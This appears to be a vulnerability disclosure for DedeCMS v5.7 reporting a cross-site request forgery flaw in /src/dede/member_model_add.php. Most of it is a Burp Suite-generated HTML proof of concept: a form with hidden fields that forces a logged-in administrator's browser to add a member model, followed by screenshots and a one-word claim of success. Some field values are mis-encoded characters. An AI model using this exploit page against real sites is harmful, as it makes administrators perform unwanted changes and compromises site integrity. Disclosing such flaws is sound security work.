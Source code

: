 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/member_model_add.php
![1](https://github.com/wangxinbixu888/cms/assets/164822067/3c5a5812-80ee-4221-acef-bd990931b8f9)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/member_model_add.php?action=add" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="name" value="�&#188;&#154;�&#145;&#152;�&#168;&#161;�&#158;&#139;3" />
      <input type="hidden" name="table" value="dede&#95;member&#95;3" />
      <input type="hidden" name="description" value="�&#168;&#161;�&#158;&#139;�&#143;&#143;�&#191;&#176;" />
      <input type="hidden" name="state" value="1" />
      <input type="hidden" name="button" value="�&#161;&#174;�&#174;&#154;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
![2](https://github.com/wangxinbixu888/cms/assets/164822067/0a03d149-4f67-4c0d-9924-143125b0c1b5)



successed

![3](https://github.com/wangxinbixu888/cms/assets/164822067/87e2bead-e609-41f8-8c5f-c5f905e0d036)
